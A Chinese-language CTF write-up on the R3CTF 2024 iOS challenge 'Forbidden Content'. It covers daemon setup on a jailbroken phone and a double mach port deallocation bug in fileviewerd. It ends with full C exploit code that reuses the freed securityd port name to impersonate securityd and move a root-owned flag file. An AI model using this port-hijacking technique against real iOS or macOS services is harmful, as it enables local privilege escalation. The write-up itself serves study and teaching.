







# R3CTF-2014-forbidden-Content

原题链接：https://github.com/r3kapig/r3ctf-2024/tree/master/Pwn/pwn0win%20-%20Forbidden%20Content

本题比赛时是0解，但其实是比较典型的利用IPC过程中的漏洞实现本地提权的场景，不过可能需要较多的背景知识。实际上，本题和Samuel大神35c3时出的题目pillow(https://github.com/saelo/35c3ctf/tree/master/pillow) 思路和利用手法都是类似的，甚至漏洞更容易发现，而且少了沙箱逃逸的一步，但将系统平台由macOS移到了iOS上，所以构建调试和分析环境稍显麻烦。

## MIG

解压题目的压缩包，发现包含两个Mach-O文件和三个.defs文件。

```bash
$ unzip ./forbidden-content.zip
Archive:  ./forbidden-content.zip
   creating: forbidden-content/
  inflating: forbidden-content/security.defs
  inflating: forbidden-content/fileviewerd
  inflating: forbidden-content/fileviewer.defs
  inflating: forbidden-content/fileviewer_listener.defs
  inflating: forbidden-content/securityd
```

.defs是AppleOS上的MIG（MACH Interface Generator）系统用来生成服务端和客户端接口代码的模板，其实MIG就是一种RPC机制，类似Android上的AIDL，可以参考[链接](https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-ipc-inter-process-communication/macos-mig-mach-interface-generator)。

简单来说，AppleOS上的进程间通信底层依赖于mach port实现，MIG则是为了简化开发者直接操作mach port的复杂性，使得通信双方只需要约定接口参数和返回值，便可以通过mach port进行IPC通信和RPC调用。但MIG其实也是比较久远和偏底层的机制，使用时容易出现编程错误，所以Apple后来推出了XPC和NSXPC作为更现代的IPC机制，在此不展开描述。除了开放给第三方应用之外，AppleOS自身也大量依赖MIG、XPC和NSXPC机制实现系统进程，并将对应的系统能力提供给低权限应用，这也属于AppleOS的微内核设计之一。但这些系统进程如果缺少对IPC请求方的正确权限检查，或者自身实现逻辑存在漏洞，也会暴露较大的攻击面。本题即包括两个基于MIG的系统进程securityd和fileviewerd，由于代码中存在可利用的漏洞，最终导致低权限进程可以进行特权文件读写操作。

## Environment

首先我们要在自己的测试手机（建议iOS 15+的Dopamine越狱）上构建运行环境，即令securityd和fileviewerd这两个系统进程跑起来。看一下fileviewerd的main函数，它会调用`bootstrap_check_in`函数注册一个系统服务com.xia0o0o0o.fileviewerd，同时又会调用`bootstrap_look_up`函数找到com.xia0o0o0o.securityd这个系统服务，显然是securityd对应的服务了。那么我们就要向launchd注册这两个系统服务和对应的daeamon。



我们将daemon传到`/var/jb/usr/sbin/`路径下，然后写入相应的plist传到`/var/jb/Library/LaunchDaemons/`路径下。

```xml
iPhone:/ root# cat /var/jb/Library/LaunchDaemons/com.xia0o0o0o.fileviewerd.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.xia0o0o0o.fileviewerd</string>
    <key>Program</key>
    <string>/var/jb/usr/sbin/fileviewerd</string>
    <key>KeepAlive</key>
    <true/>
    <key>POSIXSpawnType</key>
    <string>Interactive</string>
    <key>MachServices</key>
    <dict>
        <key>com.xia0o0o0o.fileviewerd</key>
        <true/>
    </dict>
</dict>
</plist>
iPhone:/ root# cat /var/jb/Library/LaunchDaemons/com.xia0o0o0o.securityd.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.xia0o0o0o.securityd</string>
    <key>Program</key>
    <string>/var/jb/usr/sbin/securityd</string>
    <key>KeepAlive</key>
    <true/>
    <key>POSIXSpawnType</key>
    <string>Interactive</string>
    <key>MachServices</key>
    <dict>
        <key>com.xia0o0o0o.securityd</key>
        <true/>
    </dict>
</dict>
</plist>
```

然后用launchctl启动即可：

```
launchctl bootstrap system /var/jb/Library/LaunchDaemons/com.xia0o0o0o.fileviewerd.plist
launchctl bootstrap system /var/jb/Library/LaunchDaemons/com.xia0o0o0o.securityd.plist
```

如果要关闭的话：

```
launchctl bootout system /var/jb/Library/LaunchDaemons/com.xia0o0o0o.fileviewerd.plist
launchctl bootout system /var/jb/Library/LaunchDaemons/com.xia0o0o0o.securityd.plist
```

启动之后可以看到两个daemon均在pid=0下运行，属于特权进程。

```
iPhone:/ root# ps -ef | grep /var/jb/usr/sbin/
    0  4851     1   0 Mon01PM ??         0:01.49 /var/jb/usr/sbin/securityd
    0  9703     1   0  2:43PM ??         0:00.40 /var/jb/usr/sbin/fileviewerd
```

另外多说一句，我们用codesign命令看一下fileviewerd的代码签名（两者的entitlements是相同的）：

```bash
$ codesign -dvvv --entitlements - ./fileviewerd
Executable=/path/to/forbidden-content/fileviewerd
Identifier=fileviewerd-55554944a1ae4dd7f9e73d0493e7874ac7859c6d
Format=Mach-O thin (arm64)
CodeDirectory v=20400 size=941 flags=0x2(adhoc) hashes=18+7 location=embedded
Hash type=sha256 size=32
CandidateCDHash sha256=db7da758b0409b1a49c1b71055273a238b03b50e
CandidateCDHashFull sha256=db7da758b0409b1a49c1b71055273a238b03b50e35022c922eb929a48452ab3a
Hash choices=sha256
CMSDigest=db7da758b0409b1a49c1b71055273a238b03b50e35022c922eb929a48452ab3a
CMSDigestType=2
Launch Constraints:
	None
CDHash=db7da758b0409b1a49c1b71055273a238b03b50e
Signature=adhoc
Info.plist=not bound
TeamIdentifier=not set
Sealed Resources=none
Internal requirements count=0 size=12
[Dict]
	[Key] com.apple.private.amfi.can-check-trust-cache
	[Value]
		[Bool] true
	[Key] com.apple.private.apfs.mount-root-writeable-at-shutdown
	[Value]
		[Bool] true
	[Key] com.apple.private.bindfs-allow
	[Value]
		[Bool] true
	[Key] com.apple.private.coreservices.canmaplsdatabase
	[Value]
		[Bool] true
	[Key] com.apple.private.diskimages.kext.user-client-access
	[Value]
		[Bool] true
	[Key] com.apple.private.record_system_event
	[Value]
		[Bool] true
	[Key] com.apple.private.roots-installed-read-write
	[Value]
		[Bool] true
	[Key] com.apple.private.security.disk-device-access
	[Value]
		[Bool] true
	[Key] com.apple.private.security.no-container
	[Value]
		[Bool] true
	[Key] com.apple.private.security.no-sandbox
	[Value]
		[Bool] true
	[Key] com.apple.private.security.storage.AppBundles
	[Value]
		[Bool] true
	[Key] com.apple.private.security.storage.AppDataContainers
	[Value]
		[Bool] true
	[Key] com.apple.private.security.storage.driverkitd
	[Value]
		[Bool] true
	[Key] com.apple.private.security.storage.launchd
	[Value]
		[Bool] true
	[Key] com.apple.private.security.system-mount-authority
	[Value]
		[Bool] true
	[Key] com.apple.private.set-atm-diagnostic-flag
	[Value]
		[Bool] true
	[Key] com.apple.private.spawn-panic-crash-behavior
	[Value]
		[Bool] true
	[Key] com.apple.private.spawn-subsystem-root
	[Value]
		[Bool] true
	[Key] com.apple.private.thread-set-state
	[Value]
		[Bool] true
	[Key] com.apple.private.vfs.allow-low-space-writes
	[Value]
		[Bool] true
	[Key] com.apple.private.vfs.graftdmg
	[Value]
		[Bool] true
	[Key] com.apple.private.vfs.pivot-root
	[Value]
		[Bool] true
	[Key] com.apple.private.vfs.role-account-openfrom
	[Value]
		[Bool] true
	[Key] com.apple.private.vfs.role-account-unmount
	[Value]
		[Bool] true
	[Key] com.apple.private.xpc.launchd.storage-mounter
	[Value]
		[Bool] true
	[Key] com.apple.private.xpc.launchd.userspace-reboot
	[Value]
		[Bool] true
	[Key] com.apple.rootless.restricted-block-devices
	[Value]
		[Bool] true
	[Key] com.apple.rootless.storage.apfs_boot_mount
	[Value]
		[Bool] true
	[Key] com.apple.rootless.storage.early_boot_mount
	[Value]
		[Bool] true
	[Key] com.apple.rootless.volume.Preboot
	[Value]
		[Bool] true
	[Key] com.apple.security.exception.iokit-user-client-class
	[Value]
		[Array]
			[String] AppleMobileFileIntegrityUserClient
			[String] IOSurfaceRootUserClient
			[String] IOHDIXControllerUserClient
	[Key] com.apple.security.network.client
	[Value]
		[Bool] true
	[Key] com.apple.security.network.server
	[Value]
		[Bool] true
	[Key] com.apple.springboard.CFUserNotification
	[Value]
		[Bool] true
	[Key] com.apple.system-task-ports
	[Value]
		[Bool] true
	[Key] com.apple.system-task-ports.control
	[Value]
		[Bool] true
	[Key] get-task-allow
	[Value]
		[Bool] true
	[Key] platform-application
	[Value]
		[Bool] true
	[Key] task_for_pid-allow
	[Value]
		[Bool] true
```

可以看到具有com.apple.private.security.no-sandbox和com.apple.private.security.no-container这两个entitlement，说明进程未开启应用沙箱和应用容器，对目标flag文件具有读写能力。

## Bug

从.defs中可以看出，securityd只有一个方法，叫做check_perm，接受一个uid和一个字符串作为参数，看起来是权限检查相关。

```bash
$ cat security.defs
subsystem security 12345;

userprefix CLIENT_;
serverprefix SERVER_;

#include <mach/mach_types.defs>
#include <mach/std_types.defs>

import "../common.h";

type string = c_string[*:1024];

routine check_perm(
    server_port    : mach_port_t;
    uid            : uint32_t;
    path           : string);
```

拖到IDA中看一下，主要逻辑就是stat获取给定路径path所对应文件的uid，然后与传入的uid相比较，如果一致则返回0（KERN_SUCC），显然是用于判断某个文件是否允许指定用户修改。



而fileviewer要复杂很多，包含四个接口register_callback, remove_callback, read_file和move_file。

```c
$ cat fileviewer.defs
subsystem fileviewer 1234;

userprefix CLIENT_;
serverprefix SERVER_;

#include <mach/mach_types.defs>
#include <mach/std_types.defs>

import "../common.h";

type string = c_string[*:1024];

simpleroutine register_callback(
    server_port            : mach_port_t;
    callback_port          : mach_port_t);

simpleroutine remove_callback(
    server_port            : mach_port_t);

routine read_file(
    server_port            : mach_port_t;
    filename               : string;
    ServerAuditToken token : audit_token_t);

routine move_file(
    server_port            : mach_port_t;
    filename               : string;
    new_filename           : string;
    ServerAuditToken token : audit_token_t);
```

register_callback首先判断全局变量global_callback_port是否为空，如果不为空就会调用mach_port_deallocate。随后，会将global_callback_port赋值为传入的mach port。



remove_callback在global_callback_port不为空时会调用mach_port_deallocate释放对应port，随后将global_callback_port重新设置为空。



read_file首先会调用securityd提供的MIG接口check_perm检查要读取的文件的owner与调用者uid是否一致，一致则读取文件内容并通过callback port写回。



move_file首先会调用securityd提供的MIG接口check_perm检查要移动的原始文件的owner与调用者uid是否一致，一致则允许移动，并最终在移动后chown修改移动后文件的owner。



flag位于`/var/jb/var/root/flag`中，rwx为`-r--------  1 root   wheel`。显然我们以非root权限调用read_file或move_file接口读写flag都会被securityd的check_perm接口拒绝，但如果我们能绕过check_perm检查，就能直接getflag。

其实漏洞还是比较好找的，我们能很明显地感觉到register_callback对全局变量的处理有些奇怪：remove_callback会先deallocate掉global_callback_port后设置为空，没什么问题。但register_callback会直接deallocate掉global_callback_port，然后再设置为新指定的port。但这里register_callback中调用的deallocate明显是多余的，其实应该直接调用remove_callback，也就是要将global_callback_port清零之后再重新设置。当前这种实现是存在double deallocate漏洞的！

## Exploitment

Double mach deallocate漏洞的利用Samuel在Pillow中已经展示过了，感兴趣的可以深入学习，我这里不对mig源码作深入研究和展开。

我们首先通过bootstrap_look_up拿到fileviewerd的port和securityd的port，然后通过fileviewerd的port访问register_callback方法触发漏洞，从而double deallocate securityd的port，导致该mach port name在当前task中被彻底释放。这样，该 mach port name 可被下一次创建的 mach port 所重用。因此我们会尝试劫持这个mach port name，为fileviewerd伪造一个securityd，使得check_perm检查恒通过！这样我们再调用read_file或者move_file接口时就能越权对flag进行读写！！！

直接上exp。

```c
#include <stdio.h>
#include <mach/kern_return.h>
#include <mach/mach_traps.h>
#include <mach/mach.h>
#include <CoreFoundation/CoreFoundation.h>
#include <time.h>
#include <dlfcn.h>

#include "MIG/fileviewer.h"
#include "MIG/fileviewer_listener.h"

#define MAX_MSG_SIZE (8 * 1024 - MAX_TRAILER_SIZE)
typedef boolean_t (*dispatch_mig_callback_t)(mach_msg_header_t *message,
        mach_msg_header_t *reply);
mach_msg_return_t dispatch_mig_server(dispatch_source_t ds, size_t maxmsgsz, dispatch_mig_callback_t callback);

boolean_t security_server(
        mach_msg_header_t *InHeadP,
        mach_msg_header_t *OutHeadP);

kern_return_t SERVER_check_perm(mach_port_t server_port, uint32_t uid, string path) {
    NSLog(@"[+] IPC MitM successful!");
    return KERN_SUCCESS;
}

int main(int argc, char *argv[], char *envp[]) {
    mach_port_t sp = MACH_PORT_NULL, bs_port = MACH_PORT_NULL;
    task_get_bootstrap_port(mach_task_self(), &bs_port);
    const char *fileview_serv = "com.xia0o0o0o.fileviewerd";
    kern_return_t (*bootstrap_look_up)(mach_port_t, const char *, mach_port_t *) = dlsym(RTLD_DEFAULT, "bootstrap_look_up");
    kern_return_t kr = bootstrap_look_up(bs_port, fileview_serv, &sp);

    if (kr != KERN_SUCCESS) {
        return -1;
    }
    printf("[*] Get service of %s successully!\n", fileview_serv);

    mach_port_t sp2 = MACH_PORT_NULL;
    const char *security_serv = "com.xia0o0o0o.securityd";
    kr = bootstrap_look_up(bs_port, security_serv, &sp2);

    if (kr != KERN_SUCCESS) {
        return -1;
    }
    printf("[*] Get service of %s successully!\n", security_serv);

    CLIENT_register_callback(sp, sp2); // global = sp2
    sleep(2);
    CLIENT_register_callback(sp, sp2); // deallocate sp2
    sleep(2);
    CLIENT_remove_callback(sp); // double deallocate sp2

    dispatch_queue_t replyQueue = dispatch_queue_create("replyQueue", NULL);
    char* result = malloc(0x1024);
    for(size_t cnt = 0; cnt < 10000; ++cnt) {

        mach_port_t listener, listener_send_right;
        mach_msg_type_name_t aquired_right;
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &listener);
        mach_port_extract_right(mach_task_self(), listener, MACH_MSG_TYPE_MAKE_SEND, &listener_send_right, &aquired_right);
        CLIENT_register_callback(sp, listener_send_right);

        dispatch_source_t source = dispatch_source_create(DISPATCH_SOURCE_TYPE_MACH_RECV, listener, 0, replyQueue);
        dispatch_source_set_event_handler(source, ^{
            dispatch_mig_server(source, MAX_MSG_SIZE, security_server);
        });
        dispatch_resume(source);

        const char *payload = 
            "/var/jb/var/root/flag";
        const char *dst = "/var/jb/usr/local/bin/flag";
        kr = CLIENT_move_file(sp, payload, dst);
        
        if(kr == KERN_SUCCESS) {
            printf("[+] move_file success! test %zu times.\n", cnt);
            exit(EXIT_SUCCESS);
        }

        dispatch_source_cancel(source);
        // CLIENT_remove_callback(sp);
        // mach_port_deallocate(mach_task_self(), listener_send_right);
        struct timespec req, rem;
        req.tv_sec = 0;
        req.tv_nsec = 100000000L;

        nanosleep(&req, &rem);
    }
}

```

讲一下exp中几个注意的点：

1. 这里通过sleep和nanosleep避免了可能的同步问题，否则有时会crash，因为毕竟fileviewerd代码有些简陋
2. 出题人给出了.defs文件，我们可以通过MIG命令(macOS自带的binary，位于/usr/bin/mig)直接生成接口，命令如下：`mig -header fileviewer.h -sheader fileviewerServer.h fileviewer.defs`，然后直接加载fileviewer.h作为头文件即可。
3. 我这里通过theos编译了一个binary作为PoC，然后在mobile用户下执行exp提权到root。如果用Xcode编译一个App效果也是一样的，只是更折腾一些，出于演示目的没有这么做。

exp演示如下：



## Takeaway

在AppleOS系统中确实爆出过若干此类port double deallocate的漏洞，例如ian beer大神发现的https://bugs.chromium.org/p/project-zero/issues/detail?id=1520, https://bugs.chromium.org/p/project-zero/issues/detail?id=959 ，但很多都不像本题中那么明显。挖掘此类隐含的Use after deallocate/Double deallocate是具有一定挑战的，但利用潜力不可小觑。

## Ref

https://kiprey.github.io/2022/01/35c3ctf_pillow
